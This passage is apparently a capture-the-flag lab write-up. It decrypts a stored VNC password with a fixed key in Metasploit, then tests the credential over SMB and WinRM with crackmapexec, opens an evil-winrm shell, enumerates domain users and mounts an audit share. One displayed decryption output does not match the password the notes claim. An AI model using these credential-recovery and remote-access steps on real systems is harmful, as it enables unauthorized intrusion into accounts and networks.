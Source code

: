 Following instructions from the github. 


`$> msfconsole

`msf5 > irb
`[*] Starting IRB shell...
`[*] You are in the "framework" object

`>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 `=> "\u0017Rk\u0006#NX\a"
`>> require 'rex/proto/rfb'
 `=> true
`>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
`` => "Secure!\x00"

![[Pasted image 20250112204116.png]]

Got the password: sT333ve2

Discovering user for this password using #crackmapexec 

`cme smb 10.10.10.182 -u users.lst -p st333ve2`

![[Pasted image 20250112204308.png]]
Got username: s.smith

Try creds with winrm 

`cme winrm 10.10.10.182 -u s.smith -p st333ve2`

GOT PWN3D!

![[Pasted image 20250112204502.png]]
Connect with #evilwinrm 

`evil-winrm -i 10.10.10.182 -u s.smith -p st333ve2`

Enumerate as s.smith

`whoami /all` 

`net user r.thompson /domain`

`net user s.smith /domain`


Mounting the audit share 

`sudo mount -t cifs -o 'user=s smith, password=sT333ve2' //10.10.10.182/audit$ /mnt/audit`

`cd /mnt/audit`
![[Pasted image 20250112205213.png]]
Determine file type:

`file CascAudit.exe` which is a .NET Assembly file.

![[Pasted image 20250112205354.png]]
